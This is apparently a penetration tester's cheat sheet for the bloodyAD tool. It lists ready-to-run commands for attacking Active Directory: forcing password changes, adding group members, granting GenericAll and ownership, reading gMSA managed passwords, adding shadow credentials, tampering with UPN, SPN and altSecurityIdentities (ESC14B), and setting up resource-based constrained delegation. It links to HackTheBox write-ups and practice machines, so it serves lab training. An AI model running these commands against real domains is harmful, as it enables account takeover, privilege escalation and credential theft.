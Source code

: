### Installation
Using uv
```
uv tool install bloodyAD
```
Using pipx
```
pipx install bloodyAD
```
### Retrieve User Information
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```
### Add User To Group
```
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
### Change Password
```
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```
### Give User GenericAll Rights
```
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```
### WriteOwner
```
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```
### ReadGMSAPassword
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```
### Enable a Disabled Account
```
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
### Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag
```
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```
### Modify UPN
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $old_upn userPrincipalName -v $new_upn
```
Check if it has been modified
```
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_user --attr userPrincipalName
```
### MachineAccountQuota
Enumerate MachineAccountQuota
```
bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota
```
Set MachineAccountQuota value to 10
```
bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10
```
### Modify mail
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```
### Modify the altSecurityIdentities attribute (ESC14B)
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```
### Find Writable Attributes
```
bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail
```
### Shadow Credentials
```
bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target
```
### WriteSPN
```
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```
### Find Deleted Objects
```
bloodyAD --host $dc -d $domain -u $username -p $password get writable --include-del
```
### Extended Search Operations
```
bloodyAD --host $dc -d $domain -u $username -p $password get search -h
```
e.g. 
```
-c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065 to display tombstoned
```
```
bloodyAD --host $dc -d $domain -u $username -p $password -k get search -c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065
```
### Restore a deleted object
```
bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore
``` 
### Create a new computer account
```
bloodyAD --host $dc -d $domain -u $username -p $password add computer $computer_name $computer_password
```
### Add Resource Based Constraint Delegation
```
bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'
```
### Notes
- Pass `-k` to use kerberos authentication
- You can pass a user hash instead of a password using `-p :hash` 
- Specify format for '--password' or '-k <keyfile>' using `-f`, e.g. `-f rc4`
### Resources
- https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
- https://0xdf.gitlab.io/2024/03/30/htb-rebound.html
- https://0xdf.gitlab.io/2025/04/26/htb-vintage.html
- https://www.thehacker.recipes/
### Machines To Practice
- Redelegate (Vulnlab)
- Vintage (HackTheBox)
- Infiltrator (HackTheBox)
- Rebound (HackTheBox)
- Absolute (HackTheBox)
- Certified (HackTheBox)
- TombWatcher (HackTheBox)
- Voleur (HackTheBox)